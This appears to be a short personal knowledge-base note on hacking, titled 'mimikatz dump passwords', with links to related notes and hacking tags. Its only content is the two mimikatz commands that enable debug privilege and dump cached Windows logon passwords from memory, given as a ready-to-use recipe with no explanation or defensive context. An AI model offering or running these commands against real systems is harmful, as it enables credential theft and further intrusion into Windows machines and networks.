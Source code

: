 # mimikatz dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

` zet/20221003151087/README.md `

# Related

- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:

    #hacking #windows #mimikatz 
